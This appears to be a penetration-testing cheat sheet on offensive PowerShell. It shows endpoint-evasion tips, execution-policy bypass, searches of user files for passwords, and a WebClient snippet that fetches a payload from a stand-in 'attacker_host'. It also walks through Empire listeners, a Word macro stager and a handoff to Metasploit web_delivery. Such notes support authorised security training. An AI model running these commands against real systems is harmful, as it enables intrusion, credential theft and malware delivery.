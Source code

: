 ### PowerShell 4 Pentesters
#### 1.1 Intro
Why PowerShell?  
Run, download or execute code, entirely within the memory process of the powershell executable
letting penetration testers evade endpoint security solutions.  
Living-off-the-Land = using tools that are likely already "trusted" on system

Location  
32bit: C:\windows\system32\WindowsPowershell\*  
64bit: C:\windows\SysWOW64\WindowsPowerShell\*  

C:\> powershell.exe -ExecutionPolicy Bypass ./script.ps1

_1.1.1 Useful Cmdlets_   
//PS = PowerShell 
```
Get-Process
PS C:\> Get-Process chrome,firefox | Sort-Object -Unique | Format-List Path,Id //Get information about specific processes and paths to their executables.
PS C:\> Get-Process -Name "firefox" | Kill //Kills any firefox processes

Get-WmiObject
PS C:\> Get-WmiObject -class win32_operatingsystem | select -Property * //All information related to current operating system
PS C:\> Get-WmiObject -class win32_operatingsystem |Sort-Object -Unique PathName | fl Pathname //Paths to all service executables

Finding Files
PS C:\> Select-String -Path C:\users\christian\Documents\*.txt -Pattern pass* //Search for files of txt extension in user's 
Documents directory containing the string "pass"
PS C:\> Get-Content C:\users\christian\Documents\passwords.txt //Display full contents of file
PS C:\> Get-ChildItem C:\PowerShell\ | Where-Object {$_.Name -match “xls”} //List contents of directory and return files with string in their name (xls)
PS C:\> Get-Service //Lists all services

New-Object
PS C:\> $webclient = New-Object System.Net.WebClient
PS C:\> $payload_url = "https://attacker_host/payload.exe"
PS C:\> $file = "C:\ProgramData\payload.exe"
PS C:\> $webclient.DownloadFile($payload_url,$file)

//Use .NET system class to download a file to a target system. Where the $file variable is location where payload is saved. 

```
_1.1.2 Modules_
```
PS C:\> Get-Module //List all currently imported modules
PS C:\> Import-Module ./module.psm1 //Import module into current PS session

Modules need to be copied into the module path, specified by the PS environment variable, to find these paths:
PS C:\> $Env:PSModulePath

PowerSploit Module
//Download PowerSploit archive, extract it and copy its contents into chosen module directory into folder called "PowerSploit"
PS C:\> Import-Module PowerSploit
PS C:\> Get-Command -Module PowerSploit //list all PowerSploit associated cmdlets
PS C:\> Get-Help Write-HihackDLL //Get help and usage for a specific cmdlet
```
#### 1.2 Offensive PowerShell
Empire PowerShell Framework
```
Basics/Server-Side Commands
listeners //lists listeners
uselistener //select listener to use
info //listener options
//Generate SSL certificate for listener, run cert.sh script in Empire setup folder.

usestager //available stagers to choose
usestager multi/launcher
set Listener http
//Copy & paste generated payload into compromised C shell, to activate agent.

agents //lists available agents
interact agentID //interact with selected agent

Empire: AgentID> shell whoami / shell whoami /GROUPS
usemodule //lists modules 
searchmodule <keyword> ex. check //lists all modules that match check

Client-Side
Usestager windows/macro //Generate macro code for embedding in Word document 
Set Listener http
Set OutFile /root/Tools/Empire/data/macro
Execute //Macro code will be saved to directory
//Open Visual Basic editor in MS Word and paste generated macro code, save file as .doc

Transfer Empire Agent to Metasploit
/Metasploit
msf> use exploit/script/web_delivery //set SRVHOST and LHOST as attacker machine
set target 2
exploit //generates exploit URL to copy into Empire

/Empire
usemodule powershell/code_execution/invoke_metasploitpayload //use URL from web delivery exploit in msf, and agent value to agent to be transferred to msf.
```
